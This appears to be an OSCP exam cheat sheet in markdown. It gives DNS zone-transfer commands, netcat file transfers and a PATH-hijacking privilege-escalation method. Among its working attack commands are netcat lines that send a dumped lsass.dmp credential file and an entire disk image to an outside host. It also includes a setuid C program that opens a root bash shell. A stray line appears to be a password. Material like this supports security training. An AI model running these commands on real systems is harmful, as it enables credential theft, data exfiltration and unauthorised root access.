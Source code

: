 # OSCP_Cheat_sheet


## Information Gathering

1. DNS Zone Transfer
- nslookup
  `set type=a,cname,ns,mx`
  `server <domainorIP>`
- dig
  `dig axfr domain @IP` 
  
  1m0SCPc3rt1f13d!

## Post Exploitation
1. Sending Files
- nc 
```
Simple File Transfer
To receive:
nc -l -p 9999 > fromMac.file
 
To send:
.\nc.exe 192.168.119.123 443 < lsass.dmp
	 
With Compression
To receive:
nc -l -p 1234 | uncompress -c | tar xvfp -

To send:
tar cfp - /some/dir | compress -c | nc -w 3 [destination] 1234
 
 
Transfer of whole hard drive:
To send:
dd if=/dev/hda3 | gzip -9 | nc -l 3333
To receive:
nc \[destination\] 3333 | pv -b > hdImage.img.gz
 
```

2. Path Hijacking
- Create a program or script 

```
// gcc -o /tmp/rootshell /tmp/rootshell.c
// chmod u+s /tmp/rootshell
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
int main(void)
{
setuid(0); setgid(0); system("/bin/bash");
}

echo "/bin/sh" > <program>
chmod 777 <program>
```
- Export the path of the malicious program
`export PATH=/tmp:$PATH`
